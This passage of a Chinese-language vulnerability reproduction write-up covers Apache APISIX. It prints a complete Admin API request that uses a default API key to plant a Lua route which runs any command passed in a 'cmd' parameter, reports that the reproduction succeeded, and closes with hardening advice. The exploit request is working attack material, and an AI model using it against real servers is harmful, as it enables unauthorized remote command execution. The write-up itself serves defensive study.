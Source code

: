 解释下这段配置：

+ `"uri": "/attack"`这行配置指定了APISIX路由的URI路径。当用户访问`http://127.0.0.1:9080/apisix/admin/route/attack`时，APISIX会匹配这个路径并将请求交给相应的处理程序
+ `"script"`这段配置定义了一个Lua脚本（文档中有说到，理论上在Script中可以编写任意Lua代码），用于在访问这个URI时执行的逻辑，关键的一些操作如下：
    - `local os = require('os')`：加载Lua的`os`库，这是一个系统操作相关的库，可以执行系统命令
    - `local args = assert(ngx.req.get_uri_args())`：从请求中获取`cmd`参数
    - `local f = assert(io.popen(args.cmd, 'r'))`：通过`args.cmd`参数的值启动一个外部进程
    - `ngx.say(s)`：将命令的输出通过`ngx.say`输出到客户端响应，`ngx.say`是Nginx/OpenResty提供的一个函数，用于发送响应
+ `"upstream"`这段配置是后端的负载均衡设置，使用轮询（round-robin）的负载均衡策略，指定了一个后端节点`example.com:80`，并且它的权重是 1，意味着请求会被轮流转发到`example.com:80`

完整请求如下：

```bash
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 412
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1

{
    "uri": "/attack",
    "script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758856640259-ec5dfb61-29d4-43ae-bb95-3c70142f8164.png)

创建成功。接着可以访问刚刚创建好的路由（访问的是`your-ip:9080/attack`），并且通过`cmd`参数执行恶意的命令：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758856914502-589f4fea-7633-4281-bb89-4b84a95987cf.png)

复现成功。

针对这个漏洞，安全建议如下：

1. 修改`conf/config.yaml`的`deployment.admin.admin_key.key`，禁止使用默认Token
2. 若非必要，关闭Admin API功能，或者增加IP访问限制（通过`ip-restriction`插件来实现，在`"plugins"`参数中设置）
3. 升级Apache APISIX至最新版本（至少3.11及以上）
